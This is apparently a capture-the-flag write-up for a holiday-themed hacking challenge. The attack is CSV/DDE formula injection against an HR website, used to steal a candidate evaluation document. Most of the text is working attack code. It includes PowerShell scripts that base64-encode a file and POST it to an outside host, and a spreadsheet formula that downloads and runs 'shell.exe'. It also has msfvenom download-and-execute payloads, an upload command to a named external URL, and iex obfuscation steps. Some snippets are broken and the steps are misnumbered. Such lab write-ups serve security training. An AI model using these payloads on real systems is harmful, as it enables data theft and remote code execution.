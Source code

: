 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Build a server to receive the POSTed file.
2. Test a payload to upload a file.
3. Use scripts/csv_injection Docker-compose project.
4. Start the node server: `docker-compose up nodeserver`
5. Use this payload to test:
```
echo "123123" > content.txt
$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
```

6. Node side, you should receive `MQAyADMAMQAyADMA`; and then
```bash
echo "MQAyADMAMQAyADMA" | base64 -d
123123 <<< You've exfiltrated a file!
```







7. Using the example below, write a new payload:
```bash
=cmd|' /C powershell Invoke-WebRequest "http://192.168.0.8:8/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

Which will look similar to this:
```bash
Invoke-RestMethod -uri http://www.nmac.com.ar/top_notch_uploader.php -Method Post -Infile /bin/ls

```






7. Get Metasploit and run the Docker MSFVenom:
```bash
sudo chown $(id -u) ~/.msf4;
git clone git@github.com:rapid7/metasploit-framework.git
cd metasploit-framework;
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --list payload
```

We'll use the `cmd/windows/download_eval_vbs` payload to download a VBScript file which will be executed.
Such VBscript file will send us the file we need.

List the possible formats `docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --list payload`, we'll use `powershell`.

With that info, see which options are required:

```bash
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --payload cmd/windows/download_eval_vbs --format powershell --list-options
[...]
Basic options:
Name            Current Setting  Required  Description
----            ---------------  --------  -----------
DELETE          false            yes       Delete created .vbs after download
INCLUDECMD      false            yes       Include the cmd /q /c
INCLUDEWSCRIPT  false            yes       Include the wscript command
URL                              yes       The pre-encoded URL to the script

[...]
```

So run the command with options `DELETE=false INCLUDECMD=true URL=http://172.17.0.3:8084/script.ps1` as follows:
```
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --payload cmd/windows/download_eval_vbs --format powershell DELETE=false INCLUDECMD=true URL=http://172.17.0.3:8084/script.ps1
```



Build a PowerShell payload which will open a remote server


7. Convert the payload to Base64:
```bash
echo '$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST' | base64 -e

JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIK
CiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNv
ZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6
VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERh
dGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo=
```

8. Try running it in PowerShell:

```bash

a=IO.StreamReader(
  [Convert]::FromBase64String("JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIKCiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERhdGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo="),
  [Text.Encoding]::ASCII
)

pwsh -c '[Convert]::FromBase64String("JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIKCiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERhdGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo=")'






7. Convert the payload to something that can be injected:

```
pwsh -c '$uri = \"http://172.17.0.3:8084/\"
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST'
```

All the above needs to be ran by the shell. Move the payload to a variable (with proper escaping) and then invoke iex() to execute it:

```
pwsh -c "$A=\"$uri = 'http://172.17.0.3:8084/'
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
iex($A)\""
```
